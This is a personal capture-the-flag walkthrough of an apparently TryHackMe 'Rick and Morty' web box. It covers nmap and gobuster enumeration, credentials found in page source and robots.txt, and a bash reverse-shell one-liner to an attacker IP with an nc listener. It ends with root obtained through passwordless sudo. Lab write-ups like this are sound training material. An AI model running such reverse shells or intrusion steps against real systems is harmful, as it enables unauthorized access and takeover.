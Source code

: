 ### Rick and Morty, how i did it at least
I dont usually do any of this stuff so this walkthrough is going to be pretty straight forward. We like web pentesting, its fun, this machine is pretty easy, there is many ways to solve it.

Ill probably do this more often as i do need to practice solving machines on thm and htb if i want to keep things going.



1. First throw nmap at it

-sC: default scripts

-sV: service version detection

-oN: save output to a file
``` bash
nmap -sC -sV -oN nmap_scan.txt <TARGET_IP>
```

2. After that we know we also have SSH, but first we go into our browser and search for anything in it hitting ctrl+u. We got a user:

``` HTML<>

  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```
![user](screenies/user.png)

3. We also hit it with some basic dirbuster to see if we can hit any new directories:

``` bash
gobuster dir -u http://10.10.246.189 -w /usr/share/wordlists/dirb/common.txt -t 40
```

Results:

```
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/assets               (Status: 301) [Size: 315] [--> http://10.10.246.189/assets/]
/index.html           (Status: 200) [Size: 1062]
/robots.txt           (Status: 200) [Size: 17]
/server-status        (Status: 403) [Size: 278]
Progress: 4614 / 4615 (99.98%)

```

4. Looking into our robots.txt
```bash
curl http://10.10.246.189/robots.txt
```
Results
```
Wubbalubbadubdub
```
![password](screenies/password.png)


## Thoughts by this point

We definitely have a user as stated by the plain html, do we have a password? I need a login to test this stuff out

5. dirbuster again with more params:
```bash
gobuster dir -u http://10.10.246.189 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html -t 40
```
oh
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.246.189
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 278]
/.html                (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 1062]
/login.php            (Status: 200) [Size: 882]
/assets               (Status: 301) [Size: 315] [--> http://10.10.246.189/assets/]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
/robots.txt           (Status: 200) [Size: 17]
Progress: 103142 / 882244 (11.69%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 103265 / 882244 (11.70%)
===============================================================
Finished
===============================================================

```

6. WE already got a dashboard pannel with ``` R1ckRul3s:Wubbalubbadubdub```

7. We've got a dashboard that lets us run commnands as the www-data user, which means we can probs pop a shell:
![what](screenies/www-data.png)


8. To avoid any weird shells we are just going to try a nice one liner (a bash one cause yeah). Bring up your listener:
```bash
nc -lvnp 4444
```

9. pop a one liner on the execution box in the dashboard and try to catch a shell
``` bash
bash -c 'bash -i >& /dev/tcp/10.6.8.184/4444 0>&1'
```

10. Good enaoughhhh

![shell](screenies/yippyshell.png)


11. From here one we can traverse as usual:
```bash
ls -la
```
Result(we landed):
![landingdir](screenies/firstlookatdir.png)

12. that ```Sup3rS3cretPickl3Ingred.txt``` is looking funny so i just ```cat``` it. Its a flag:
```
mr. meeseek hair
```
13. there is also ```clue.txt``` so same thing:
```
Look around the file system for the other ingredient.
```
that was kinda the plan, thx tho

14. At this point
```bash
cd /
```

```bash
cd home/rick/
```
15. There is a file here called 'second ingredients' so just cat that(its a flag):
```bash
1 jerry tear
```

## Before moving on
I was thinking of priv esc:
```bash
sudo -l
```
Turns out i couldve done that earlier
```
Matching Defaults entries for www-data on ip-10-10-246-189:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-246-189:
    (ALL) NOPASSWD: ALL

```

16. ```sudo su```

17. From here its just looking for flags lol, so i move back to the root dir

```bash
cd /
```

Then went to root dir

```bash
cd root
```

18. Do ls on a bish:

![3rd](screenies/noway.png)

19. just cat 3rd.txt, thats the flag:
```bash
3rd ingredients: fleeb juice
```

## Funny box, 
this was funny to do at 1 am, its a pretty easy box, like very entry  level, there is actually very little to do, as soon as you have access to the dashboard you could probably do just about everything through the command execution box.

Its great to manage and understand gettint a reverse shell and nice to learn how to look for dirs and clues in general when first getting familiarized with a web app, noting crazy.

Ill do a harder one next time maybe idk.